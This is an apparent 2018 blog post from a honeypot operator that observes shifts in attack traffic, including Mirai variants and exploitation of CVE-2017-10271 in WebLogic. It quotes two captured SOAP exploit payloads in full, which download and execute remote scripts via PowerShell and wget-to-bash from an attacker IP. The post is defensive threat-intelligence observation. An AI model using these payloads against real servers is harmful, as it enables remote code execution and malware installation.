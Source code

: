 ```yaml
---
title: "Attack Movement"
#author: "Author Name"
description: "Discussion about general movement of attackers from one attack type to another over time"
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-06-14T00:00:00-00:00
draft: false
---
```

It's strange how attacks seem to move around on a weekly/monthly basis.  Up until recently I saw a number of attacks against GPON, and today I don't see a single one.  There is some probability in this - I occupy only a small amount of IP space, so with a given number of attackers throwing a given number of attacks per second, some portion of the IP space less than 100% will be hit.  Tomorrow maybe I'll see some GPON again.  Certainly, though, it seems like the frequency of GPON attacks have gone down, and perhaps that reflects some lowered success rate by hackers.  Maybe owners of that software have mostly patched by now, or maybe attackers have closed off the attack vector behind them, leaving the others to wish they'd gotten there first.

I always see lots of Mirai and Mirai-derived traffic.  There's no shortage.  This has begun to change recently - I see new filenames being used periodically.  This morning I found a download link in both FTP and HTTP, repeated a bunch, using techniques similar to Mirai to get in, that happened around midnight.  When I went to download the files though - the target did not respond.  Perhaps the attacker uses some modicum of OPSEC - closing down ports when not actively attacking, or possibly even only opening ports to targets he/she is actively exploiting.  The attacker was coming directly from the same address they were offloading the infection script from, too.  That is a little different than most Mirai traffic I've seen - redirecting to some central C2/download point.  Alternatively - it was just the first reaches of someone who was trying to spread their botnet.

Back on port 8080 though, I've seen a huge increase in recent days of traffic to /wls-wsat/CoordinatorPortType.  This seems to be related to CVE-2017-10271, which is not new.  This bug is 6-9 months old...  Here are a couple ways exploitation is attempted.

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java>
        <void class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3" >
            <void index="0">
              <string>cmd</string>
            </void>
            <void index="1">
              <string>/c</string>
            </void>
            <void index="2">
              <string>cmd /c powershell.exe -w 1 -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command iex ((New-Object System.Net.WebClient).DownloadString('hxxp://107.181.174.232/win/checking.ps1'))</string>
            </void>
          </array>
          <void method="start"/>
        </void>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java>
        <void class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3" >
            <void index="0">
              <string>/bin/sh</string>
            </void>
            <void index="1">
              <string>-c</string>
            </void>
            <void index="2">
              <string>wget --user-agent linux -O - hxxp://107.181.174.232/lin/st.sh | bash</string>
            </void>
          </array>
          <void method="start"/>
        </void>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

Two download attempts, same IP address.  Unfortunately, again, when attempting download later on, some router or firewall has blackholed this host - now a device in the route responds with "No route to host".  Probably "Total Server Solutions L.L.C." noticed the attack traffic and blackholed the host, or perhaps they "no route to host" any address that is not actively in use to cut down on bot traffic, and the user stopped their VM.

UPDATE - the cat came back the very next day!  The Mirai-like traffic came back with a similar attack pattern as yesterday.  It seems like the same individual, now coming from a different IP address.  This time, 167.99.215.155, part of DigitalOcean's chunk of IPs.  And, this brings a new site to my attention, urlhaus.abuse.ch.  It seems very relevant to what I'm trying to do.  I see that this site has already reported that IP address to DigitalOcean as abuse, and that they have reported the other IP address I see in my logs with the same Mirai-like traffic - 159.65.195.209 - another DigitalOcean address.  This actor, assuming it's all one person, which seems possible, must be tired of hopping addresses.

Also - based upon some of the behavior of this malware, I'd say it's the iDdosYou variant of Mirai.
